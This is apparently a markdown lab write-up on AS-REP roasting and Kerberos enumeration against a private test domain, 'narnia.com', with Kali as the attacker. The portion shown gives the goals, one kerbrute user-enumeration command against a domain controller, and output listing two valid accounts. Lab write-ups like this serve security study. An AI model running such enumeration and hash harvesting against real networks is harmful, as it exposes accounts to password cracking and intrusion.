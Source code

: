# 🔐 AS-REP Roasting & Kerberos Enumeration (2025-04-24)

**Target:** 192.168.1.2 (Windows Server 2025 - `narnia.com`)  
**Attacker Machine:** Kali Linux (`192.168.1.10`)  
**Tools Used:** `kerbrute`, `impacket` (GetNPUsers.py)

---

## 🎯 Goal

- Identify valid domain usernames
- Test for Kerberos accounts with "Do not require pre-authentication"
- Retrieve AS-REP hashes for offline cracking

---

## 🧰 Step 1: Kerbrute Enumeration

**Command:**
```bash
kerbrute userenum --dc 192.168.1.2 -d narnia.com usernames.txt
Result:

pgsql
Copy
Edit
[*] Valid user found: administrator@narnia.com
[*] Valid user found: jdoe@narnia.com
✅ 2 valid usernames identified
